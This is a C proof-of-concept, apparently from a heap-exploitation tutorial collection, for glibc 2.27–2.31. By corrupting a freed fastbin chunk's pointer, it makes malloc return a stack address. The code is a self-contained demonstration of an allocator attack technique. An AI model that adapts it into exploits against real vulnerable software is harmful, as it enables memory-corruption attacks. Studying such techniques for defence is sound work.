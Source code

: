 ### POC

#### glibc 2.27 - glibc 2.31

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }

  char* victim = ptrs[7];

  free(victim);

  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  *(size_t**)victim = &stack_var[0];
  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```
